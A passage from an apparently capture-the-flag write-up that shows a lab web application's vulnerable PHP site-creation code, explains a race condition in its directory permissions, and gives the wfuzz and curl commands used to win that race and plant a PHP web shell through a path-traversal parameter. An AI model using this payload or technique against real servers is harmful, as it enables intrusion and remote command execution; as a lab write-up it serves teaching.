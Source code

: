 ```
        if(!is_dir($site_name)) {
            mkdir($site_name, 0700);
        }
        system("cp -r /var/www/microblog-template/* /var/www/microblog/" . $site_name);
        if(is_dir($site_name)) {
            chdir(getcwd() . "/" . $site_name);
        }
        system("chmod +w content");
        chdir(getcwd() . "/../");
        system("chmod 500 " . $site_name);
        chdir(getcwd() . "/../");
        system("chmod -w microblog");
        header("Location: /dashboard?message=Site added successfully!&status=success");
    }
    else {
        header("Location: /dashboard?message=Site not added, authentication failed&status=fail");
    }

```

It makes `microblog` writable, and copies the template into that directory. Then it makes the `content` folder writable, but then steps up and sets the reset of the site not writable.

The issue is that there’s a race condition there. For a very short period of time, there’s a writable directory that will allow PHP to run.

#### Exploit

To exploit this, I’ll use `wfuzz` to send a lot of requests at once to write into a site that doesn’t exist:

```
oxdf@hacky$ wfuzz -u http://10.10.11.213/edit/ -H "Host: race.microblog.htb" -b 'username=rbb8bp6umb0logs0i3sqlcp5kc' -d 'id=../0xdf.php&txt=<?php+system($_REQUEST["cmd"]);+?>&oops=FUZZ' -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt

```

I haven’t created `race.microblog.htb` yet, but that’s my `Host` header. It’s using my session cookie, and trying to write to the root of that site. I’ve added an `oops` parameter just to have something to `FUZZ` so `wfuzz` will send lots of requests at once. If I try something like `curl` here in a `while true` loop, it’s too slow.

Once I start this running, I’ll create the site. For example, with this `curl` command:

```
oxdf@hacky$ curl -v app.microblog.htb/dashboard/ -b username=rbb8bp6umb0logs0i3sqlcp5kc -d new-blog-name=race

```

While the site is being created, `wfuzz` is throwing _tons_ of requests at it, and one is likely to land while the base directory for `race` is writable. Once the site is created, I’ll kill the `wfuzz` and check. The webshell is there:
